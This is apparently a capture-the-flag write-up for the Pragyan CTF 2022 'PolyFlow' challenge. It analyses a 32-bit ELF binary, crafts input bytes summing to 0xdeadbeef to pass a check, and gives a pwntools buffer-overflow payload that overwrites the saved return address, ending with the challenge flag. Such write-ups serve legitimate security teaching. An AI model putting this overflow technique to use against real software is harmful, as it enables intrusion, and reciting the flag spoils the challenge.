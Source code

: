 # Pragyan CTF 2022 - PolyFlow

Origin challenge link: https://ctf.pragyan.org/

You can also download challenge file in my repo: [Poly-flow.zip](Poly-flow.zip)

There will be 1 file in zip:

- Poly-flow

Download challenge and let's start!

# 1. Find bug

First, we will use `file` to check for basic information:

```
$ file Poly-flow
Poly-flow: ELF 32-bit LSB executable, Intel 80386, version 1 (GNU/Linux), statically linked, BuildID[sha1]=681641744fb6d6d68665b3a0a2a1ebac46415b0e, for GNU/Linux 3.2.0, not stripped
```

This is a 32-bit file without being stripped. Next, let's use `checksec` to check for all defences:

```
$ checksec Poly-flow
    Arch:     i386-32-little
    RELRO:    Partial RELRO
    Stack:    Canary found
    NX:       NX enabled
    PIE:      No PIE (0x8048000)
```

We can see that `Canary found` and `NX enabled`. Finally, let's fire up ghidra and decompile to understand how the program works. 

The main function will ask for input, then check it and if it's correct, we will have input function:

![main.png](images/main.png)

At check function, it will add 4 bytes in first 16 bytes of our input and compare the result with `0xdeadbeef`

![check.png](images/check.png)

The sum inside loop will work like this (hex format) on stack if we input `aaaabaaacaaadaaa`:

```
 a a a a           61 61 61 61
 a a a b    -->    61 61 61 62
 a a a c           61 61 61 63
 a a a d           61 61 61 64
-------------------------------
                   85 85 85 8a
```

Because the sum will result in 0x1xx so from `0x61*4 = 0x184 + 1 = 0x185`. And after the sum, if it's equal with `0xdeadbeef` we will go into input function:

![input.png](images/input.png)

The var `i.0` is a global and at the begining of program, its value is 0. We can notice that the local variable local_1c is defined just 20 bytes but we can input upto 36 bytes --> **Buffer Overflow**.

That's all we can find. Let's move on next part: Brainstorming!

# 2. Brainstorming

Of course the first thing we need to do is to make sure we can get to the input function. To do that, we need to satisfy the check function.

After that, we will Buffer Overflow to execute the input function 5 times so that `i.0` will have the value of 5 and the flag will be printed.

- Summary:
  1. Satisfy check() function
  2. Get flag

# 3. Exploit

### Stage 1: Satisfy check() function

As we know that in check(), it will add 4 bytes of first 16 bytes and then compare with `0xdeadbeef`. So we will split the 16 bytes into 4 bytes per line like above. 

First, we will not want it to be 0x1xx because that will make us confused. We will take each byte of `0xdeadbeef` and divided with 4 to get the proper value for each byte of input (Python code):

```
0xde / 4        = 55.5
(0xde - 2) / 4  = 55.0 = 0x37

0xad / 4        = 43.25
(0xad - 1) / 4  = 43.0 = 0x2b

0xbe / 4        = 47.5
(0xbe - 2) / 4  = 47.0 = 0x2f

0xef / 4        = 59.75
(0xef - 3) / 4  = 59.0 = 0x3b
```

So the stack will sum 4 byte like this (hex format):

```
37 2b 2f 3b
37 2b 2f 3b
37 2b 2f 3b
39 2c 31 3e
-----------
de ad be ef
```

But wait, the stack is in a reverse order with this so we will need to change all collumns like this:

```
3b 2f 2b 37
3b 2f 2b 37
3b 2f 2b 37
3e 31 2c 39
-----------
ef be ad de
```


And we get the payload for scanf():

```
payload1 = \x3b\x2f\x2b\x37\x3b\x2f\x2b\x37\x3b\x2f\x2b\x37\x3e\x31\x2c\x39
```

Input this with pwntool and we jump into input() function.

```
payload1 = b'\x3b\x2f\x2b\x37\x3b\x2f\x2b\x37\x3b\x2f\x2b\x37\x3e\x31\x2c\x39'
p.sendlineafter(b'passphrase: ', payload1)
```

And now, let's move on the final stage: Get flag!

### Stage 2: Get flag

We can see that after scanf() input 16 bytes, then `\n` byte is remain and will go into fgets. That's why we can just input scanf() and then we stop. So that we will add some payload for fgets at `payload1` above so that it will be passed to fgets after scanf.

We know we have **Buffer Overflow** so let's find the offset with cyclic first(). After a while trying, we know that offset is 28 and after 28 byte is saved eip.

We can also see that the global var `i.0` will be increased 1 when execute input() function. So we will want to overwrite the saved eip with the input() function to make `i.0` contains 5, which help us get the flag.

```
# scanf()
payload1 = b'\x3b\x2f\x2b\x37\x3b\x2f\x2b\x37\x3b\x2f\x2b\x37\x3e\x31\x2c\x39'

# fgets
payload1 += b'A'*(28)             # Padding
payload1 += p32(0x08049860)       # input function
p.sendlineafter(b'passphrase: ', payload1)

for i in range(4):
    p.sendline(payload1[16:])     # The same with padding and input() function
```

Full script: [solve.py](solve.py)

# 4. Get flag

![get_flag.png](images/get_flag.png)

Flag is `p_ctf{mUlT1Pl3_BuFf3R_Ov3rF|0w}`